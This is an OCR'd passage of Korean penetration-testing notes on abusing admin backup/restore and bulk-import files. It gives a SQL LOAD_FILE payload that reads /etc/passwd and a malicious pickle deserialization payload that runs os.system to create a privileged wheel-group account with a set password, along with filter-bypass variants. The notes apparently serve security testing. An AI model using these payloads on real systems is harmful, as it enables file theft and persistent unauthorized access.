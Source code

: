 # Integrity Verification  
---------------------------------------------------------------------
관리자 페이지 내 편의성을 위한 한꺼번에 등록하거나  
특정 설정을 백업/복구하는 기능이 있을 경우  
해당 파일을 변조하여 서버 내 데이터 탈취 혹은 RCE 공격이 가능  
SELECT LOAD_FILE('/etc/passwd'); --  
(sql과 관련된 파일이 있을 경우)  
--------------------------------------------------------------------
pickle 역직렬화 공격
objects = [SafeObject(), BadObject()]  
첫 검사 로직 우회  

malicious_pickle_data = b'(cos\nsystem\nS"useradd -m -p $(openssl passwd -1 secui) secuiTestAccount && usermod -aG wheel secuiTestAccount"\no.  
문자열로 삽입

(U\2idios\nsystem\n.  
유니코드 삽입
